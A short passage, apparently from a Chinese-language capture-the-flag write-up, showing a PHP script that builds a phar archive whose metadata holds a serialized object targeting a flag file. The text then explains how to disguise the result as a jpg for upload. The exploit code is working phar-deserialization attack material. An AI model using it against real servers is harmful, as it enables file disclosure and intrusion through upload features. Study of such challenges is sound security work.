```php
    public $params;
    public function __construct()
    {
        $this->params['source']="/var/www/html/f1ag.php";
    }
}
#$a=new C1e4r();

$phar =new Phar("exp.phar"); 
$phar->startBuffering();
$phar->setStub("XXX<?php XXX __HALT_COMPILER(); ?>"); 
$a=new C1e4r();
$phar->setMetadata($a); 
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
?>
```
执行生成, 然后把结果塞进 jpg 伪装一下传上去:

> 注：要把 `php.ini` 中的 `phar.readonly` 设置成Off

![11-6.png](11-6.png)

改名: `exp.jpg` 
